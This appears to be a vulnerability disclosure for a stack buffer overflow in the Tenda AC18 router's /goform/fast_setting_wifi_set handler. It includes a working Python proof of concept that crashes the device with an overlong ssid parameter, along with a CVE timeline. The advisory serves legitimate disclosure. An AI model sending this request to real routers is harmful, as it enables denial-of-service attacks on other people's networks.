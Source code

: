 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

## Timeline

* 2022-05-06: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30473)
* 2022-06-05: CNVD ID assigned (CNVD-2022-43197)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank).
